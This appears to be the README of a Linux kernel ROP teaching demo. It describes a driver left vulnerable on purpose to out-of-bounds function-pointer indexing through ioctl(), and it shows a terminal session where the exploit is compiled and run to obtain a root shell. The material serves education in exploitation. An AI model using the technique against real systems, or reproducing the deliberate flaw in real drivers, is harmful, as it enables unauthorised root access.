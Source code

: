 # Linux Kernel ROP demo

This is a vulnerable Linux kernel driver used to demonstrate in-kernel
privilege escalation ROP (Return Oriented Programming) chain in practice. The
article URL for Part 1 is available at
https://lonerangerweb.wordpress.com/2016/06/23/linux-kernel-rop-ropping-your-way-to-part-1/
https://lonerangerweb.wordpress.com/2016/06/26/linux-kernel-rop-ropping-your-way-to-part-2/.

The driver module is vulnerable to OOB access and allows arbitrary code
execution. An arbitrary offset can be passed from user space via the provided
ioctl(). This offset is then used as the index for the 'ops' array to obtain
the function address to be executed. 
 
* drv.c - vulnerable kernel driver
* trigger.c - user-space application to trigger the OOB access via the provided
  ioctl
* find_offset.py - helper script for finding the correct offset into the "ops" array
* rop_exploit.c - ROP exploit for the "drv.c" kernel driver

The goal is to construct and execute a ROP chain that will satisfy the
following requirements:

* Execute a privilege escalation payload
* Data residing in user space may be referenced (i.e., "fetching" data from
  user space is allowed)
* Instructions residing in user space may not be executed

```
lone@ubuntu:~$ dmesg | grep addr | grep ops
[  244.142035] addr(ops) = ffffffffa02e9340
vnik@ubuntu:~$ ~/find_offset.py ffffffffa02e9340 ~/gadgets 
offset = 18446744073644231139
gadget = xchg eax, esp ; ret 0x11e8
stack addr = 8108e258

vnik@ubuntu:~/kernel_rop/vulndrv$ gcc rop_exploit.c -O2 -o rop_exploit
vnik@ubuntu:~/kernel_rop/vulndrv$ ./rop_exploit 18446744073644231139 ffffffffa02e9340
array base address = 0xffffffffa02e9340
stack address = 0x8108e258
# id    
uid=0(root) gid=0(root) groups=0(root)
# 
```
